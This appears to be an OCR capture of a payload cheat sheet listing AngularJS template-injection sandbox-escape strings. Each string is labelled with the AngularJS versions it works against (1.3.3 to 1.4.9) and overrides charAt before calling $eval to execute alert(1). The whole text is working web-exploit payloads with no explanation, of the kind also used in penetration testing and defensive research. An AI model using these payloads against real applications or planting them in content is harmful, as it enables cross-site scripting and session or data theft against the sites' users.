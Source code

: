  

```javascript

{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}

```

  

AngularJS 1.4.0 - 1.4.9

  

```javascript

{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

```

  

AngularJS 1.3.20

  

```javascript

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}

```

  

AngularJS 1.3.19

  

```javascript

{{

'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;

$eval('x=alert(1)//');

}}

```

  

AngularJS 1.3.3 - 1.3.18

  

```javascript

{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;

'a'.constructor.prototype.charAt=[].join;

$eval('x=alert(1)//'); }}

```

